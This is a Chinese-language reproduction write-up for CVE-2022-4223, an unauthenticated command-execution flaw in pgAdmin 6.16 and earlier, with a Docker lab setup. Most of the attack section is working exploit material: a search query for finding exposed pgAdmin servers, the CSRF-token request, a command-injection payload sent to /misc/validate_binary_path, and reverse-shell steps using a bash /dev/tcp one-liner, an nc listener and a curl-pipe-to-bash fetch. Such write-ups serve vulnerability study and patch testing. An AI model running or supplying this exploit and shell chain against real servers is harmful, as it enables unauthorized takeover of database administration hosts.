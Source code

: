 # pgAdmin ≤ 6.16 无授权远程命令执行漏洞 CVE-2022-4223

## 漏洞描述

pgAdmin 是一个著名的 PostgreSQL 数据库管理平台。

pgAdmin 包含一个 HTTP API 可以用来让用户选择并验证额外的 PostgreSQL 套件，比如 pg_dump 和 pg_restore。但在其 6.16 版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604
- https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595
- https://github.com/advisories/GHSA-3v6v-2x6p-32mc

## 漏洞影响

```
pgAdmin 版本 <= 6.16
```

## 网络测绘

```
"pgadmin" && icon_hash="1502815117"
```

## 环境搭建

Vulhub 执行如下命令启动一个 pgAdmin 6.16 服务器：

```
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到 pgAdmin 默认的登录页面。

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407115458078.png)

若环境启动时报错 `RuntimeError: can't start new thread`，则需要升级 docker 和 docker-compose：

```shell
# 参考版本
Docker version 26.0.0, build 2ae903e
Docker Compose version v2.26.1
```

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取 csrf token：

```
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close
```

在返回包中拿到一个新的 session id 和 csrf token：

```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.14
Date: Sun, 07 Apr 2024 03:52:54 GMT
Content-Type: application/json
Content-Length: 142
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src ws: http: data: blob: 'unsafe-inline' 'unsafe-eval';
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Server: Python
Set-Cookie: pga4_session=990e222d-ec6b-4a34-883f-b5e1634c7b8b!B6rx2SOWPi/Cixy+HdVIe0z/Ez6tkKgx3O2SpMYcePE=; Expires=Mon, 08 Apr 2024 03:52:54 GMT; HttpOnly; Path=/; SameSite=Lax
Connection: close

{"meta":{"code":200},"response":{"csrf_token":"ImJlNjk0NTdjOTg0YTIzOTYzMzUyMzk5NzRkYWIyOGQ5NTk2Yjc1NGQi.ZhIYlg.4ZuZvRDiGHuXQdJN3HCnvBzgamo"}}
```

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407115321919.png)

然后，将获取到的 session id 和 csrf token 填写进下面的数据包并发送（如果这一步的响应包状态码不是 `200 OK`，而是 `302 Found`，则跟进重定向，直到返回 `200 OK`。然后返回上一步，再次发送 `GET /login` 请求包）：

```
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

可见，`id`命令已经被成功执行：

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407115433460.png)

反弹 shell：

```shell
# attacker
# step 1
cat bash.html
-----
/bin/bash -i >& /dev/tcp/<your-ip>/8888 0>&1
# step 2
python3 -m http.server 9999
# step3
nc -lvnp 8888

# victim
curl http://<your-ip>:9999/bash.html|bash
```

![](images/pgAdmin%20≤%206.16%20无授权远程命令执行漏洞%20CVE-2022-4223/image-20240407153336657.png)



